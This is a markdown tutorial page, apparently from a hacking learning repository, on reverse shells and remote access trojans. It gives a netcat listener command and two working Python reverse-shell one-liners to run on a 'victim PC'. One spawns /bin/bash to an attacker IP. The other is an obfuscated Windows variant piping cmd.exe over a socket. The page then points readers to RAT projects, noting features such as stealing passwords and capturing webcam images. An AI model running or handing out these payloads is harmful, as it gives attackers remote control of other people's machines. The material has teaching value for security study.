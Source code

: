 # Simple Reverse shell and RATs
- A [reverse shell](https://resources.infosecinstitute.com/icmp-reverse-shell/) is a type of shell in which the target machine communicates back to the attacking machine. The attacking machine has a listener port on which it receives the connection, which by using, code or command execution is achieved.

<img src="../../media/reverse_shell.png"  alt="reverse shell" width="600" height="200">

- In this case we are going to demonstrate how to get a simple reverse shell using a oneliner python script on a victim with python installed, on a real world scenario, the reverse shell exploit would have to be compiled into a binary file / executable since not everyone has python, see RATs section.

## Reverse Shell Cheat sheets
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

## Simple python oneliner reverse shell

## Attacker's PC
- Lets use netcat to listen for a connection
```bash
nc -l -p 444 -vvv
```

## Victim PC
- On the victim PC execute the following code to get a reverse shell
- Linux
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("Attackers IP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
- Windows
```batch
python -c \"(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('127.0.0.1', 4444)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\\\windows\\\\system32\\\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))
```

# RATs

RAT stands for a remote administration tool that when it is installad on a computer allows a remote computer to take control of it. Hackers and malware sometimes install these types of software on a computer in order to take control of them remotely.

The RAT gives the attacker access to your system, just as if they had physical access to your device. With this access, the person can access your files, use your camera, and even turn on/off your device.

## Some good RAT projects to look at
- [Shellverse](https://github.com/jakhax/shellverse) If you want to know how you can write your own R.A.T and add add more exploit like donwload & upload files, take screenshot, capture from webcam, steal passwords e.t.c you should checkout shellverse.
- [pupy](https://github.com/n1nj4sec/pupy) - features an all-in-memory execution guideline and leaves very low footprint. 
- [Telegram RAT](https://github.com/mvrozanti/RAT-via-Telegram) - telegram controlled R.A.T, no need for port forwarding.
